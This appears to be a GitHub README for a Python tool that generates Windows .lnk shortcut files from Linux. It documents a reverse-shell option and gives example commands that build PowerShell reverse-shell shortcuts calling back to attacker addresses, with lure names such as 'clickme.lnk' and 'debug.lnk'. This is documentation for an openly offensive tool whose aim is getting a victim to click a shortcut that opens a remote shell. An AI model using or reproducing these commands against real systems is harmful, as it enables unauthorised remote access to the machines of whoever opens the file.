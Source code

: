 # .lnk File Generator

Generate Windows shortcut files (.lnk) from Linux.

## Usage

### Command line
```bash
python3 lnk_generator.py -r 192.168.1.10 4444
python3 lnk_generator.py -c "ping 8.8.8.8"
python3 lnk_generator.py -c "calc.exe" -o calculator.lnk
```

### Interactive mode
```bash
python3 lnk_generator.py --interactive
```

## Options

| Option | Description |
|--------|-------------|
| `-c, --command` | Command to execute |
| `-r, --reverse IP PORT` | Generate PowerShell reverse shell |
| `-o, --output` | Output filename (default: clickme.lnk) |
| `--type` | Shortcut type: powershell/cmd/custom |
| `--desc` | Shortcut description |
| `-i, --interactive` | Force interactive mode |
| `-v, --verbose` | Verbose output |

## Examples

```bash
# PowerShell command
python3 lnk_generator.py -c "Get-Process"

# Reverse shell
python3 lnk_generator.py -r 192.168.1.10 4444

# Reverse shell with custom filename
python3 lnk_generator.py -r 10.0.0.1 9001 -o debug.lnk

# CMD command  
python3 lnk_generator.py -c "dir" --type cmd

# Custom executable
python3 lnk_generator.py -c "C:\\Windows\\System32\\calc.exe" --type custom
```

## Requirements

- Python 3.6+
- Linux environment

## Files

- `lnk_generator.py` - Main interface
- `native_lnk_generator.py` - Core generator
- `template.lnk` - Windows template file
